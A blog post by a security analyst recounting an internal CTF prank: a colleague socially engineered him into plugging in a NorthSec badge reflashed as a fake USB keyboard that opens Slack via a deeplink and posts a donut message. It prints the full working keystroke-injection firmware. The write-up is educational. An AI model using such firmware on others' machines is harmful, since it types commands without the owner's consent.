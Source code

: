 ```yaml
---
layout: post

title: "🍩Hacking for fun and donuts🍩"

tags: [Hacking, Security, Cybersecurity, CTF, Capture The Flag]

author:
  name: Cedric Brisson
  bio: Lead SOC Analyst
  image: cbrisson.jpg

---
```


For this year’s CTF, one of the challenge was to donut me (@Cedric Brisson) and/or phish my credentials. For a hefty 300pts + some donuts, our one and only @Andre Theriault managed to win this challenge.

But how do you trick a security freak into getting donuted? Simple put, social engineering and a bit of tech wizardry.

The technical part
To better understand what actually happened, it’s important to do a quick dive into how André achieved this from a technical perspective.

# What's a CTF?

// TODO: Fill in What's a CTF



# NorthSec in a nutshell 
 
To put it simply, NorthSec is one of the largest Canadian cybersecurity event hosted annually in Montreal. It’s known for a few things such as it’s technical talks, it’s workshops but most importantly, it’s CTF. It’s an event where a bunch of nerds group up and share information about cybersecurity. The talks ranges from stuff like “Under the Radar: How we found 0-days in the Build Pipeline of OSS Packages” to “Insert coin: Hacking arcades for fun”. Beyond its technical focus, NorthSec offers great networking opportunities in a vibrant setting, making it a must-attend for anyone serious about staying at the forefront of cybersecurity innovation and skill development.

But why are we talking about this? Well because this year, I happened to not attend the CTF but André did. Each year, NorthSec has 2 badges. One of the conferences and one for the CTF. This year was different however, there was only one badge but those attending the competition would get it flashed with a special software.

![NorthSec 2024 conference & CTF badge](/images/2024-08-01-hacking-for-fun-and-donuts/badge-with-cover.png)

This year’s NorthSec badge
This year’s badge offered a few features. One thing that is recurrent every year is that it’s essentially made to be a social tool. You plug your badge into someone else’s badge to gain points that enable new animations. The “syncing” of the badges typically takes a few minutes which forces you to talk to people a bit a meet new friends. We managed to get a pretty long chain too! Linking with more badges at once would essentially activate a “point multiplier”.

![NorthSec 2024 conference & CTF badge chain](/images/2024-08-01-hacking-for-fun-and-donuts/badge-chain.jpg) 

# The ESP32 
 
But how does the badge work? Well, it uses a chip called an ESP32. In essence, it’s essentially a small chip that’s easily programmable which offers a few features such as Bluetooth and WIFI capabilities. One of the key things it offers is being able to be reprogrammed. This will be important later on :wink:.

![Northsec 2024 conference & CTF parts](/images/2024-08-01-hacking-for-fun-and-donuts/uncovered-badge.png)

It was also connected to the following which were key to the exploit:

- A RESET button that essentially acts as a way to reboot the chip
- A BOOT button that, if pressed while plugging in the USB-C connector, enabled “flashing mode”
- A USB-C port to flash the chip

# The social engineering
In the context of information security, social engineering is the psychological manipulation of people into performing actions or divulging confidential information. A type of confidence trick for the purpose of information gathering, fraud, or system access, it differs from a traditional "con" in the sense that it is often one of the many steps in a more complex fraud scheme. It has also been defined as "any act that influences a person to take an action that may or may not be in their best interests."

Now that we understand the technical background of the exploit, let’s dive into how he managed to convince me to get donuted.

André knows I’m an avid CTF player. Knowing I couldn’t participate at this year’s edition, he offered me to lend me his badge so I could dump the firmware and start reverse engineering it to see if I couldn’t get a flag or two.

![Conversation between me and the person who pwned me](/images/2024-08-01-hacking-for-fun-and-donuts/conversation-1.png)

What I thought was a kind offer ended up being my downfall. André had found a way to get me to plug something in my computer without doubting it’s legitimacy. He leveraged a passion of mine against me. This is exactly what social engineering is all about; leveraging human flaws to attain a goal the person would normally not go along with.

The malicious code
What André had secretly done was to upload “malicious” firmware that would loop a set of commands while pretending to be a keyboard. Here’s the code in question with some comments on what each line does:


```c
#include "USB.h"
#include "USBHIDKeyboard.h"
USBHIDKeyboard Keyboard;
const char* CTF_CHANNEL = "slack://channel?team=T025J1W63&id=C01D2N3Q5EF";
const char* DONUT = "/donut";
void setup() {
  Keyboard.begin(); // Sets everything to present itself as a keyboard
  USB.begin(); // Starts USB communication
}
void loop() {
    delay(5000); // Waits 5 seconds
    // Open Slack
    // ===================================================================
    Keyboard.press(KEY_LEFT_GUI); // Holds the "windows key"
    Keyboard.press('r'); // Presses the "r" key to start the "run" utility
    delay(100); // waits 100ms
    Keyboard.releaseAll(); // releases previously pressed keys
    delay(100); 
    // Writes the CTF channel deeplink to the run utility and presses enter
    Keyboard.println(CTF_CHANNEL); 
    delay(500);
    // ===================================================================
    // This loop repeats the following actions
    // ===================================================================
    for(int i = 0; i < 3; i++) {
      // sends message to channel
      Keyboard.println("I LOVE DONUTS, AND FREE 300PTS DURING CTFs");
      // sends donut command
      Keyboard.println(DONUT);
      delay(500);
    }
    // ===================================================================
    delay(1000);
}
```
All in all, it’s a fairly simple program.

# What are deeplinks?
To fully understand the “exploit”, we have to dive into deeplinks. A deeplink is defined as such:

A custom URL schemes to direct users to specific pages within an app, enhancing user engagement, retention, and improving conversion rates

We’re all familiar with http/s URLs such as “https://coveo.com”. The “https://” part is referred to as a “scheme”. There’s a ton of schemes out there such as “http://”, “https://”, “ftp://”, “ssh://”, and so on. Nearly anything goes as long as your system supports it. 

It just so happened that Slack has it’s own deeplink which is “slack://…”. With this, one can simply open Slack with the following link “slack://channel?team=T025J1W63&id=C01D2N3Q5EF”. Let’s break it down:

- slack:// → The Slack deeplink scheme
- channel → Telling slack what you want to open is a channel
- ?team=T025J1W63 → Our Slack org ID
- &id=C01D2N3Q5EF → The channel ID (in this case, it’s #coveo-ctfs)

Piecing all of this together, you can a simple URL that opens Slack directly to the CTF channel. It’s a very elegant way of avoiding having to automate tabbing through all possible channels and checking if you’ve tabbed on the right one.

# Where it nearly went wrong
Upon getting my hands on the badge, my first instinct was to directly plug the badge to my computer but in flash mode. When in flash mode, the firmware on the device does not run. This means that his exploit wouldn’t have worked. By pure luck, for reasons unknown to me, the firmware dump was taking an insane long time to complete. 

This gave André a chance to sneak up next to me and “just start looking at my badge”. To my surprise, the dump suddenly stopped and I thought it was because the USB connector had made a bad contact or something. Turns out André had sneakily pushed the reset button putting the badge into it’s malicious state which executed the code.

![Message "I" posted that confirmed the exploit](/images/2024-08-01-hacking-for-fun-and-donuts/donut-message.png)

And just like that, I owed a few boxes of Donuts and André won 300pts🍩

Let’s see who can achieve a similar feat next year :wink: